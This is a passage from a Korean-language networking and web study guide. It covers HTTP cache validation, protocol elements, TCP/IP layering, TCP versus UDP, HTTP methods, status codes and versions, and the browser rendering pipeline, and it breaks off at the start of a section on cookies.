

#### 두 가지 검증 헤더 쌍
1. **시간 기반 검증**: `Last-Modified` (서버) <-> `If-Modified-Since` (클라이언트)
   - 파일의 마지막 수정 시각(초 단위)을 비교합니다. 1초 미만의 미세한 수정이나 내용 변경 없이 타임스탬프만 바뀐 경우 불필요한 재전송이 일어날 수 있는 한계가 있습니다.
2. **콘텐츠 해시 기반 검증**: `ETag` (서버) <-> `If-None-Match` (클라이언트)
   - 리소스 내용물의 고유 해시값(Checksum)을 비교합니다. 내용이 1바이트라도 바뀌지 않았다면 시각과 무관하게 완벽한 동일성을 보장하므로 훨씬 정확합니다.

> **304 Not Modified의 마법**: 응답 바디(Payload)가 완전히 비어 있으므로, 5MB짜리 무거운 이미지 파일이라 할지라도 단 수백 바이트의 헤더 패킷만 오가며 즉시 화면에 렌더링됩니다.

---

## 05. 프로토콜이란 무엇인가요?
> **네트워크 통신 규약, 구문(Syntax), 의미(Semantics), 타이밍(Timing) 3요소, 프로토콜의 필연성**

현실 세계에서 한국인과 프랑스인이 아무런 사전 약속 없이 만나 각자의 모국어로 동시에 말을 쏟아낸다면 소통은 완전히 실패할 것입니다. 컴퓨터의 세계도 완전히 동일합니다. 미국에서 제작된 인텔 CPU 기반의 Windows PC와 한국에서 제작된 ARM 기반의 안드로이드 스마트폰이 대화할 수 있는 유일한 이유는, 둘 사이에 미리 정교하게 정의된 **"소통의 규칙"**이 존재하기 때문입니다.  

이 통신 규칙을 우리는 **프로토콜(Protocol: 통신 규약)**이라고 부릅니다.

---

### 5.1 프로토콜의 3대 핵심 요소

국제 표준화 기구에서는 프로토콜을 성립시키는 3대 필수 요소를 다음과 같이 정의합니다.

```
       ┌────────────────────────────────────────────────────────┐
       │                 프로토콜의 3대 핵심 요소                │
       └────────────────────────────────────────────────────────┘
              │                     │                    │
              ▼                     ▼                    ▼
     [ 구문 (Syntax) ]     [ 의미 (Semantics) ]   [ 타이밍 (Timing) ]
     데이터의 구조와 포맷     제어 비트와 에러 처리    송수신 속도 조절과 순서
```

#### 1) 구문 (Syntax : 데이터의 형식과 구조)
- **무엇을 어떤 모양으로 담을 것인가?**
- 데이터의 비트 배열 순서, 패킷 헤더의 크기, 필드의 위치, 문자 인코딩(UTF-8, ASCII 등) 방식을 정의합니다.
- *예시*: "앞의 32비트는 출발지 IP 주소이고, 뒤의 16비트는 포트 번호이며, 데이터의 끝은 줄바꿈 문자(`\r\n\r\n`)로 구분한다."

#### 2) 의미 (Semantics : 정보의 뜻과 제어 규약)
- **그 비트와 단어가 무엇을 뜻하며, 어떻게 행동해야 하는가?**
- 특정 필드의 값이 들어왔을 때 수행해야 할 동작, 제어 정보의 해석, 오류 발생 시의 처리 절차를 규정합니다.
- *예시*: "HTTP 요청 메서드가 `GET`이면 자원을 조회하여 반환하고, 상태 코드가 `404`이면 리소스가 존재하지 않음을 사용자에게 표시하며, TCP 헤더의 `SYN` 비트가 1이면 연결 요청으로 인식한다."

#### 3) 타이밍 (Timing : 속도와 순서의 조율)
- **언제 보내고, 얼마나 빨리 보내며, 순서가 꼬이면 어떻게 해결하는가?**
- 통신 양단 간의 송수신 속도 차이를 조절하는 **흐름 제어(Flow Control)**, 네트워크 혼잡을 회피하는 **혼잡 제어(Congestion Control)**, 패킷 전송 순서와 타임아웃(Timeout) 재전송 기준을 정의합니다.
- *예시*: "수신 버퍼가 가득 차면 윈도우 크기를 0으로 보내 송신을 멈추게 하고, 패킷을 보낸 지 200ms 동안 ACK가 오지 않으면 패킷 유실로 판단하여 재전송한다."

---

### 5.2 프로토콜이 없으면 컴퓨터가 대화하지 못하는 이유

만약 전 세계 컴퓨터 사이에 표준화된 프로토콜이 없다면 어떤 비극이 일어날까요?

1. **엔디안(Endianness) 불일치로 인한 데이터 오염**
   - 어떤 CPU는 숫자를 메모리에 저장할 때 상위 바이트부터 쓰는 **빅 엔디안(Big-Endian)**을 쓰고, 인텔 x86 CPU는 하위 바이트부터 쓰는 **리틀 엔디안(Little-Endian)**을 씁니다. 프로토콜이 "네트워크를 통과할 때는 무조건 빅 엔디안(네트워크 바이트 오더)으로 통일한다"고 강제하지 않는다면, 숫자 `1`을 보냈는데 상대방은 `16,777,216`으로 해석하는 참사가 벌어집니다.
2. **데이터의 경계(Boundary) 분간 불가**
   - 연속된 전기 신호가 흘러들어올 때, 어디서부터 어디까지가 헤더이고 어디부터가 본문 데이터인지 알 수 없습니다.
3. **표준화 기구와 RFC(Request for Comments) 문서의 위대함**
   - **IETF(Internet Engineering Task Force)**, **W3C**, **IEEE**와 같은 비영리 표준화 기구는 누구나 자유롭게 구현할 수 있도록 모든 인터넷 프로토콜을 **RFC 문서**라는 상세한 공개 기술 명세서로 배포합니다. 덕분에 애플, 마이크로소프트, 구글이 만든 제각각의 장비와 소프트웨어가 완벽하게 서로 맞물려 통신할 수 있는 것입니다.

---

## 06. TCP/IP vs HTTP
> **OSI 7계층과 TCP/IP 4계층, 전송 계층(TCP/UDP)과 응용 계층(HTTP), 데이터 캡슐화와 역캡슐화**

네트워크를 공부할 때 가장 흔하게 겪는 혼란 중 하나는 "TCP/IP와 HTTP는 대체 무슨 관계인가?"라는 의문입니다. 결론부터 말하자면, 둘은 대립하거나 경쟁하는 기술이 아니라 **서로 다른 층(Layer)에 위치하며 완벽하게 위아래로 협력하는 관계**입니다.

---

### 6.1 네트워크 계층 모델: OSI 7계층 vs TCP/IP 4계층

네트워크는 복잡한 하드웨어와 소프트웨어를 역할별로 모듈화하기 위해 계층화(Layering) 아키텍처를 도입했습니다.

```
       [ OSI 7 Layer ]                    [ TCP/IP 4 Layer ]              [ 프로토콜 & 장비 ]
  7. 응용 계층 (Application)     ┐
  6. 표현 계층 (Presentation)    ├─>   4. 응용 계층 (Application)       HTTP, DNS, SSH, FTP, TLS
  5. 세션 계층 (Session)         ┘
  4. 전송 계층 (Transport)       ──>   3. 전송 계층 (Transport)         TCP, UDP (Port 번호)
  3. 네트워크 계층 (Network)     ──>   2. 인터넷 계층 (Internet)        IP, ICMP, 라우터 (Router)
  2. 데이터 링크 (Data Link)     ┐
  1. 물리 계층 (Physical)        ┘─>   1. 네트워크 인터페이스           이더넷, Wi-Fi, L2 스위치, 케이블
```

- **계층화의 이점**: 각 계층은 오직 자신의 책임만 수행하며 하위 계층의 내부 구현을 알 필요가 없습니다. 웹 개발자가 HTTP 코드를 짤 때 광케이블의 신호 왜곡을 고민할 필요가 없고, 유선 랜선을 Wi-Fi로 바꾸더라도 브라우저 코드나 HTTP 스펙을 한 줄도 수정할 필요가 없습니다.

---

### 6.2 전송 계층의 두 거인: TCP vs UDP

TCP/IP 모델의 전송 계층(Transport Layer)은 **"프로세스와 프로세스 간의 신뢰성 또는 전송 방식(Port to Port)"**을 책임집니다. 여기에는 정반대의 철학을 가진 두 개의 거대한 기둥이 존재합니다.

```
                  ┌──────────────────────────────────────────┐
                  │          전송 계층 (Transport)           │
                  └──────────────────────────────────────────┘
                        │                              │
                        ▼                              ▼
             [ TCP : 신뢰성의 수호자 ]       [ UDP : 속도의 지배자 ]
             • 연결 지향 (Connection)       • 비연결형 (Connectionless)
             • 손실 시 100% 재전송          • 손실 감수, 빠른 송출
             • 순서 보장 (Seq/Ack)          • 순서 무관
             • 흐름 제어, 혼잡 제어          • 오버헤드 극소화 (8바이트 헤더)
```

| 비교 항목 | TCP (Transmission Control Protocol) | UDP (User Datagram Protocol) |
| :--- | :--- | :--- |
| **연결 방식** | 연결 지향적 (3-Way Handshake 수립 후 통신) | 비연결형 (사전 연결 없이 목적지로 즉각 패킷 방출) |
| **신뢰성 보장** | **100% 보장** (패킷 손실 시 재전송, 체크섬 검증) | **비보장** (도착 여부 확인 안 함, Best-Effort) |
| **전송 순서** | **엄격하게 순서 보장** (수신측 재조립) | **순서 보장 없음** (도착하는 대로 수신) |
| **제어 기능** | **흐름 제어**(슬라이딩 윈도우), **혼잡 제어**(혼잡 회피) | **제어 기능 없음** (응용 프로그램이 알아서 처리) |
| **헤더 크기** | 기본 20바이트 ~ 최대 60바이트 (무거움) | 고정 8바이트 (초경량) |
| **주요 용도** | 웹 서핑(HTTP/1.1, HTTP/2), 이메일, 파일 전송(FTP) | 실시간 스트리밍(YouTube 라이브), 온라인 게임, DNS, HTTP/3 |

---

### 6.3 응용 계층(HTTP)과 전송 계층(TCP)의 비유적 관계

> **"HTTP는 택배 상자 안에 들어 있는 편지이고, TCP/IP는 그 상자를 파손 없이 목적지 방 호수까지 안전하게 배송해 주는 글로벌 택배 물류 시스템입니다."**

- **HTTP**: "무엇을 요청하고 무엇을 응답할 것인가?"를 규정하는 응용 계층의 텍스트/바이너리 메시지 규약입니다.
- **TCP**: "그 HTTP 메시지를 쪼개서 분실되지 않게 끝까지 책임지고 온전한 순서로 상대방에게 도달시킬 것인가?"를 보장하는 하위 운송 계층입니다.

---

### 6.4 데이터 캡슐화(Encapsulation)와 역캡슐화(Decapsulation)

클라이언트가 HTTP 요청을 만들어 전송하면, 데이터는 스택을 타고 내려가며 각 계층의 헤더가 차례대로 덧붙는 **캡슐화(Encapsulation)**를 겪습니다. 수신 측 서버는 정반대로 헤더를 하나씩 벗겨내는 **역캡슐화(Decapsulation)**를 수행합니다.

```
[송신측 : 캡슐화 (Encapsulation)]                           [수신측 : 역캡슐화 (Decapsulation)]

 응용 계층        [ HTTP Request Message ]                     응용 계층        [ HTTP Request Message ]
                          │ (데이터 전달)                                               ▲ (본문 복원)
 전송 계층    [TCP 헤더] [ HTTP Request Message ]              전송 계층    [TCP 헤더] [ HTTP Request Message ]
                          │ (세그먼트 분할)                                             ▲ (포트 번호 확인)
 인터넷 계층 [IP 헤더] [TCP] [ HTTP Message ]                 인터넷 계층 [IP 헤더] [TCP] [ HTTP Message ]
                          │ (패킷화)                                                    ▲ (IP 주소 라우팅)
 링크 계층  [이더넷 헤더] [IP] [TCP] [HTTP] [트레일러(FCS)]      링크 계층  [이더넷 헤더] [IP] [TCP] [HTTP] [FCS]
                          │ (프레임화)                                                  ▲ (MAC 주소 확인/에러 체크)
 물리 계층        010110001010110101010010 (전기/광 신호) ───────────────> 물리 계층
```

- 각 계층마다 추가되는 핵심 제어 정보:
  - **TCP 헤더**: 출발지/목적지 **포트 번호(Port)**, Sequence Number, Acknowledgment Number, 플래그 비트.
  - **IP 헤더**: 출발지/목적지 **IP 주소**, TTL(Time To Live).
  - **이더넷 헤더**: 출발지/목적지 물리적 **MAC 주소**, 프레임 에러 체크를 위한 FCS(Frame Check Sequence).

---

## 07. HTTP는 무엇인가요?
> **무상태(Stateless)와 비연결성(Connectionless), HTTP 메서드와 상태 코드, HTTP/1.1 vs HTTP/2 vs HTTP/3**

HTTP(HyperText Transfer Protocol)는 오늘날 전 세계 웹을 지탱하는 가장 성공적이고 보편적인 응용 프로토콜입니다. 1990년대 초 팀 버너스리(Tim Berners-Lee)에 의해 단순한 텍스트 문서를 주고받는 목적으로 탄생했으나, 현재는 HTML뿐 아니라 이미지, 비디오, JSON API 데이터, 양방향 스트리밍까지 디지털 세상의 모든 정보를 실어나르는 만능 고속도로가 되었습니다.

---

### 7.1 HTTP의 두 가지 핵심 아키텍처 철학

HTTP 프로토콜을 이해하는 핵심 키워드는 **무상태(Stateless)**와 **비연결성(Connectionless)**입니다.

#### 1) 무상태성 (Stateless)
- **개념**: 서버는 클라이언트의 이전 요청이나 상태를 절대 기억(저장)하지 않습니다. 모든 요청은 독립적이며, 그 자체로 처리에 필요한 모든 정보를 온전히 담고 있어야 합니다.
- **장점**: **서버의 수평적 확장(Scale-out)이 극도로 용이**합니다. 이전 요청을 1번 서버가 처리했더라도, 다음 요청을 2번, 100번 서버가 받아도 아무런 문제가 없습니다. 서버가 다운되어도 세션 복구 비용이 없습니다.
- **단점**: 사용자가 로그인한 상태라는 사실조차 매 요청마다 증명해야 하므로 전송 데이터양이 늘어납니다. (이를 극복하기 위해 뒤에서 다룰 **쿠키, 세션, JWT**가 탄생했습니다.)

#### 2) 비연결성 (Connectionless)
- **개념**: 클라이언트가 요청을 보내고 서버가 응답을 마치면, 그 즉시 둘 사이의 TCP 연결을 끊어버리는 방식입니다.
- **장점**: 서버가 수만 명의 사용자와 상시 연결을 유지할 필요가 없으므로 서버 자원(소켓, 메모리)을 획기적으로 아낄 수 있습니다.
- **단점**: 웹 페이지 하나를 로딩할 때 수십 개의 이미지와 스크립트를 받아야 하는데, 그때마다 매번 3-Way Handshake를 반복해야 하므로 심각한 지연 시간(Runtrip Time)이 발생합니다.
  - *극복*: HTTP/1.1부터는 `Connection: keep-alive` 헤더를 기본(default)으로 적용하여, 한 번 수립한 TCP 연결을 일정 시간 동안 닫지 않고 재사용할 수 있도록 개선했습니다.

---

### 7.2 HTTP 요청 메서드와 멱등성 (Idempotence)

클라이언트는 서버에게 자신이 수행하고자 하는 의도를 **HTTP 메서드**를 통해 선언합니다.

| 메서드 | 의미 | CRUD 매핑 | 안전성 (Safe) | 멱등성 (Idempotent) |
| :--- | :--- | :--- | :---: | :---: |
| **GET** | 리소스 조회 | Read | **O** (서버 상태 변경 안 함) | **O** (100번 호출해도 동일) |
| **POST** | 새 리소스 생성, 프로세스 처리 | Create | X (서버 상태 생성) | **X** (호출마다 새 결제/글 생성) |
| **PUT** | 리소스 전체 대체 (없으면 생성) | Update (전체) | X | **O** (동일 데이터로 덮어씀) |
| **PATCH** | 리소스의 일부 속성만 수정 | Update (부분) | X | **X / O** (구현에 따라 다름) |
| **DELETE** | 리소스 삭제 | Delete | X | **O** (이미 삭제된 상태 유지) |
| **OPTIONS** | 대상 리소스가 지원하는 메서드 질의 (CORS 사전 요청) | - | **O** | **O** |

> **용어 정리**:
> - **안전성(Safe)**: 호출해도 대상 리소스의 상태가 전혀 변경되지 않는 특성.
> - **멱등성(Idempotent)**: 동일한 요청을 한 번 보내든, 네트워크 오류로 인해 연속해서 백 번을 보내든 **서버의 최종 상태와 결과가 항상 동일함을 보장하는 특성**. API 설계 시 멱등성 보장은 분산 환경의 재시도(Retry) 안정성을 위해 필수적입니다.

---

### 7.3 HTTP 상태 코드 (Status Code) 체계

서버는 클라이언트의 요청에 대한 처리 결과를 3자리 숫자로 이루어진 상태 코드로 명확히 회신합니다.

```
  1xx (Informational) : 요청을 받았으며 작업을 계속 진행 중임 (101 Switching Protocols 등)
  2xx (Success)       : 클라이언트의 요청이 성공적으로 접수되고 처리됨
  3xx (Redirection)   : 요청을 완료하기 위해 클라이언트의 추가 조치(페이지 이동 등)가 필요함
  4xx (Client Error)  : 클라이언트의 잘못된 문법, 유효하지 않은 파라미터, 권한 부족 등의 오류
  5xx (Server Error)  : 클라이언트 요청은 정상이지만, 서버 내부 연산 중 예외가 발생함
```

#### 실무 핵심 상태 코드 10선
1. **`200 OK`**: 성공적으로 조회 또는 처리됨.
2. **`201 Created`**: POST 요청에 의해 새로운 리소스가 서버에 성공적으로 생성됨 (`Location` 헤더 동반).
3. **`204 No Content`**: 작업은 성공했으나 응답 본문(Body)에 담아 보낼 데이터가 없음 (삭제 성공 등).
4. **`301 Moved Permanently`**: 리소스의 URI가 영구적으로 이동됨 (브라우저는 새 URL을 캐싱).
5. **`304 Not Modified`**: 조건부 GET 요청 시, 캐시가 유효하므로 본문 없이 기존 캐시를 쓰라고 지시.
6. **`400 Bad Request`**: 클라이언트가 필수 파라미터를 누락했거나 잘못된 JSON 형식을 보냄.
7. **`401 Unauthorized`**: 인증(Authentication)이 되지 않은 상태 (로그인 필요).
8. **`403 Forbidden`**: 인증은 되었으나, 해당 리소스에 접근할 권한(Authorization)이 없음.
9. **`404 Not Found`**: 요청한 URI에 해당하는 자원이 서버에 존재하지 않음.
10. **`500 Internal Server Error`**: 서버 코드 내에서 처리되지 않은 NullPointerException 등 런타임 에러 발생.

---

### 7.4 HTTP의 눈부신 진화: HTTP/1.1 vs HTTP/2 vs HTTP/3

웹 환경이 단순한 문서 뷰어에서 수백 개의 리소스(JS 모듈, 고화질 이미지, 폰트)를 동시에 로딩하는 무거운 웹 애플리케이션으로 진화하면서, HTTP 역시 지연 시간을 줄이기 위해 극적으로 진화해 왔습니다.



```
[HTTP/1.1 : 순차적 전송]
 TCP Conn 1: [---Request 1---]====>[---Response 1---] [---Request 2---]====>[---Response 2---]
 (앞의 응답이 지연되면 뒤의 모든 요청이 멈춤 : Head-Of-Line Blocking)

[HTTP/2 : 단일 TCP 멀티플렉싱]
 TCP Conn 1: [ Req1 조각 ][ Req2 조각 ][ Res1 조각 ][ Req3 조각 ][ Res2 조각 ] (뒤섞여 동시 스트리밍)

[HTTP/3 : UDP/QUIC 독립 스트림]
 UDP/QUIC  : Stream 1 (손실 시 1번만 재전송) ─┐
             Stream 2 (손실과 무관하게 독립 재생) ── 서로 간섭 제로!
```

#### 버전별 핵심 메커니즘 심층 비교
1. **HTTP/1.1의 병목: HOLB (Head-Of-Line Blocking)**
   - 텍스트 평문 기반 프로토콜입니다. 한 TCP 연결에서는 앞선 요청의 응답이 완전히 끝날 때까지 다음 응답을 보낼 수 없었습니다. 앞선 응답이 10초 동안 멈추면 뒤의 모든 데이터가 줄줄이 지연되는 현상(HOLB)이 발생했습니다.
   - 브라우저들은 이를 우회하기 위해 도메인당 6개의 TCP 연결을 억지로 뚫어 병렬 다운로드를 시도했습니다.
2. **HTTP/2의 혁신: 바이너리 프레이밍과 다중화 (Multiplexing)**
   - 텍스트 대신 **바이너리 프레임(Binary Frame)** 단위로 메시지를 쪼갰습니다.
   - **다중화(Multiplexing)**: 단 하나의 TCP 연결 안에서 수백 개의 요청과 응답 프레임을 ID별로 뒤섞어 동시에 전송합니다. 순서가 뒤엉켜도 수신 측에서 ID를 보고 완벽히 재조립합니다. HOLB를 크게 완화했습니다.
   - **HPACK 헤더 압축**: 중복 전송되던 무거운 쿠키와 User-Agent 헤더를 허프만 코딩과 정적/동적 테이블을 사용해 80% 이상 압축했습니다.
   - *남아있는 한계*: 응용 계층의 HOLB는 해결했으나, **밑바닥 전송 계층인 TCP 자체의 패킷 손실**이 발생하면 TCP는 패킷 순서를 맞추기 위해 모든 스트림을 정지시킵니다(TCP 수준의 HOLB).
3. **HTTP/3의 종착지: UDP 기반의 QUIC 프로토콜**
   - 30년간 써오던 TCP를 과감하게 버리고, 신뢰성 제어를 개발자가 자유롭게 커스터마이징할 수 있는 **UDP** 위에 **QUIC(Quick UDP Internet Connections)** 프로토콜을 올렸습니다.
   - **독립 스트림**: 패킷이 손실되어도 해당 패킷이 속한 특정 스트림만 일시 정지될 뿐, 나머지 다른 수십 개의 스트림은 아무런 간섭 없이 최고 속도로 렌더링됩니다(완벽한 패킷 레벨 HOLB 극복).
   - **초고속 연결 (0-RTT / 1-RTT)**: TCP 핸드셰이크와 TLS 암호화 핸드셰이크를 하나로 합쳐, 연결 수립과 동시에 첫 데이터를 보낼 수 있습니다.
   - **네트워크 마이그레이션**: 와이파이를 끄고 LTE/5G로 전환되어 IP 주소가 바뀌어도, QUIC Connection ID를 기반으로 기존 다운로드가 끊김 없이 즉시 이어집니다.

---

## 08. 브라우저에 화면이 뜨기까지, 어떤 과정을 거치나요?
> **주소창 입력부터 렌더링 엔진 파이프라인(DOM/CSSOM -> Render Tree -> Layout -> Paint -> Composite)의 모든 것**

"브라우저 주소창에 `https://www.google.com`을 입력하고 엔터를 쳤을 때 화면이 나타나기까지 무슨 일이 일어나는가?"는 컴퓨터 공학의 모든 기초 지식(네트워크, OS, 알고리즘, 그래픽스)을 관통하는 개발자 면접의 가장 클래식하면서도 심오한 질문입니다. 전체 과정을 네트워크와 렌더링 파이프라인의 두 단계로 나누어 상세히 추적해 봅니다.

---

### 8.1 전체 흐름의 큰 그림



#### [Phase 1] 네트워크 통신 단계
1. **URL 파싱 및 프로토콜 결정**: 브라우저는 입력된 문자열이 검색어인지 URL인지 식별하고, 스키마(`https://`)가 없으면 기본값을 부여합니다.
2. **HSTS(HTTP Strict Transport Security) 확인**: 브라우저의 사전 등록 목록(Preload List)을 확인하여 강제로 HTTPS로 업그레이드합니다.
3. **DNS 질의**: 브라우저 캐시 -> OS 캐시 -> Hosts 파일 -> 로컬 DNS 리졸버를 거쳐 도메인의 최종 목적지 IPv4/IPv6 주소를 획득합니다.
4. **TCP 3-Way Handshake**: 획득한 IP의 443 포트로 SYN, SYN-ACK, ACK 패킷을 교환하여 가상 연결을 맺습니다.
5. **TLS Handshake (보안 연결)**: 대칭키를 안전하게 교환하기 위한 비대칭 암호화 키 교환과 서버 인증서 신뢰성 검증을 거쳐 보안 세션을 수립합니다.
6. **HTTP 요청 및 응답**: 브라우저가 `GET / HTTP/2` 요청을 날리고, 웹 서버/WAS는 HTML 문서를 청크 단위로 나누어 응답 패킷으로 내려보냅니다.

---

### 8.2 [Phase 2] 브라우저 렌더링 엔진 파이프라인 (Critical Rendering Path)

네트워크를 통해 HTML 문서의 첫 번째 14KB 바이트 조각이 도착하는 즉시, 브라우저의 렌더링 엔진(Chrome의 Blink, Safari의 WebKit)은 화려한 시각적 변환 작업을 시작합니다.



#### 1) DOM (Document Object Model) 트리 구축
브라우저는 네트워크에서 들어오는 날것의 0과 1의 비트열(Bytes)을 지정된 인코딩(UTF-8) 문자로 바꾸고, W3C 표준에 따라 태그를 식별하는 **토큰화(Tokenizing)** 과정을 거칩니다. 토큰을 객체 노드로 변환한 뒤 부모-자식 관계를 연결하여 트리 형태의 **DOM 트리**를 완성합니다.

#### 2) CSSOM (CSS Object Model) 트리 생성
HTML 파싱 도중 `<link rel="stylesheet">`나 `<style>` 태그를 만나면 CSS 파싱을 동시에 진행합니다. CSS의 캐스케이딩(Cascading) 상속 규칙이 적용된 **CSSOM 트리**를 구축합니다. CSS 파싱이 완료될 때까지 화면을 그리지 못하므로 CSS는 **렌더링 차단 리소스(Render-Blocking Resource)**입니다.

#### 3) 렌더 트리 (Render Tree) 구축
DOM과 CSSOM을 결합하여 화면에 **실제로 눈에 보이는 요소들만 선별한 렌더 트리**를 만듭니다.
- **주의**: `<head>`, `<script>`, `<meta>` 태그는 화면에 보이지 않으므로 렌더 트리에 포함되지 않습니다.
- **결정적 차이**: `display: none;` 속성이 부여된 노드는 렌더 트리에서 완전히 제외됩니다. 반면 `visibility: hidden;`이나 `opacity: 0;`은 화면에 빈 공간을 차지하므로 렌더 트리에 포함됩니다.

#### 4) 레이아웃 (Layout / Reflow)
기기의 뷰포트(Viewport) 크기를 기준으로, 렌더 트리의 각 노드가 **화면의 정확히 어느 좌표(X, Y)에 몇 픽셀(Width, Height)의 크기로 놓여야 하는지 기하학적 수치를 계산**하는 단계입니다. 박스 모델(Box-model), 마진, 패딩, Flexbox/Grid 위치가 여기서 확정됩니다.

#### 5) 페인트 (Paint / Repaint)
레이아웃에서 계산된 좌표를 바탕으로 텍스트, 색상, 테두리, 배경색, 그림자 효과 등을 **실제 화면의 픽셀(Pixel)로 변환(래스터화: Rasterization)**합니다. 브라우저는 성능을 위해 여러 개의 독립된 레이어(Layer)로 나누어 그립니다.

#### 6) 합성 (Composite)
여러 장의 투명한 셀로판지를 겹치듯, 각각 독립적으로 그려진 레이어들을 올바른 z-index 순서대로 겹쳐 **최종 화면을 합성하고 모니터 그래픽 카드(GPU)로 전송**하여 화면을 출력합니다.

> **프론트엔드 성능 최적화의 핵심**:  
> 자바스크립트로 DOM을 조작할 때 레이아웃(너비, 높이 등)을 건드리면 **Reflow -> Repaint -> Composite**이 모두 다시 일어나 심각한 화면 버벅임(Jank)이 발생합니다. 반면 GPU 가속 속성인 `transform: translate()`이나 `opacity`를 사용하면 Layout과 Paint를 통째로 건너뛰고 **Composite 단계만 단독 실행**되므로 60FPS의 매끄러운 애니메이션을 얻을 수 있습니다.

---

## 09. 세션과 쿠키는 무엇인가요?
> **HTTP의 무상태성을 극복하는 상태 유지 기술, 쿠키 vs 세션, 보안 취약점(HttpOnly, Secure)과 로그인 메커니즘**

앞서 07번 꼭지에서 살펴보았듯, HTTP는 기본적으로 이전 요청을 전혀 기억하지 못하는 **무상태(Stateless)** 프로토콜입니다. 무상태성 그대로라면 사용자가 장바구니에 상품을 담고 결제 페이지로 넘어갈 때마다 "당신은 누구신가요?"라며 로그인을 다시 요구해야 합니다. 이 치명적인 불편함을 해결하고 웹에 '연속적인 사용자 경험(상태 유지)'을 부여하기 위해 등장한 기술이 바로 **쿠키(Cookie)**와 **세션(Session)**입니다.

---

### 9.1 쿠키 (Cookie): 클라이언트에 저장되는 신분증

